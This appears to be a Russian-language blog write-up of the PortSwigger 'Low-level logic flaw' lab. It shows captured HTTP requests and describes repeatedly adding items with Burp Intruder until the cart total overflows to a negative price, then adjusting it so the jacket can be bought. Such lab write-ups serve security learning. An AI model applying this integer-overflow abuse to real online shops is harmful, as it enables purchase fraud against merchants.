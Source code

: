 ```yaml
---
title: "Low-level logic flaw"
date: 2025-10-16
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-low-level"
classes: wide
---
```


В лабе плохо валидируется ввод. Для прохождения нужно купить `Lightweight l33t leather jacket`. Даны креды для учетной записи `wiener`:`peter`.

```
https://0ad200f30413945a80ed12f100c80061.web-security-academy.net/
```

# Solution

Зайду в личный кабинет.

Попробую добавить товар в корзину:

```http
POST /cart HTTP/2
Host: 0ad200f30413945a80ed12f100c80061.web-security-academy.net
Cookie: session=4Op8WU4eiYStLLMwJYEhnzrzZT0L1iGx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad200f30413945a80ed12f100c80061.web-security-academy.net/product?productId=3
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://0ad200f30413945a80ed12f100c80061.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=3&redir=PRODUCT&quantity=1
```

Куплю его:

```http
POST /cart/checkout HTTP/2
Host: 0ad200f30413945a80ed12f100c80061.web-security-academy.net
Cookie: session=4Op8WU4eiYStLLMwJYEhnzrzZT0L1iGx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad200f30413945a80ed12f100c80061.web-security-academy.net/cart
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0ad200f30413945a80ed12f100c80061.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=vSbOxMSOjpYUHzNje0Pgw4bTBL1TXpwk
```

В этих запроса меня заинтересовал только параметр `quantity`. Закину запрос в `Repeater`.

Отрицательное количество товара сделать уже не получается)

Попробовав добавить в корзину 100 товаров я столкнулся с неожиданной ошибкой:

```http
POST /cart HTTP/2
Host: 0ad200f30413945a80ed12f100c80061.web-security-academy.net
Cookie: session=4Op8WU4eiYStLLMwJYEhnzrzZT0L1iGx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad200f30413945a80ed12f100c80061.web-security-academy.net/product?productId=3
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: https://0ad200f30413945a80ed12f100c80061.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=3&redir=PRODUCT&quantity=100
```

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 29

"Invalid parameter: quantity"
```

Есть подозрение, что сделано это не случайно. Попробую отправить кучу запросов через `Inrtuder`, выбрав `Null payload`:

```http
POST /cart HTTP/2
Host: 0ad200f30413945a80ed12f100c80061.web-security-academy.net
Cookie: session=4Op8WU4eiYStLLMwJYEhnzrzZT0L1iGx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad200f30413945a80ed12f100c80061.web-security-academy.net/product?productId=3
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: https://0ad200f30413945a80ed12f100c80061.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=2&redir=PRODUCT&quantity=99
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_low-level/1.jpg){: height="200" .align-center}

Спустя множество атак я долбился свой цели - отрицательный баланс)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_low-level/2.png){: height="200" .align-center}

Попрбую добавить нужный товар и оплатить. Если не выйдет, то буду добавлять товары, пока не получу положительный баланс...

И купить сразу не вышло. Поэтому будем добивать цену до положительной.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_low-level/3.jpg){: height="200" .align-center}

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_low-level/4.png){: height="200" .align-center}

С количеством - перебор, но лаба решена.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_low-level/5.png){: height="200" .align-center}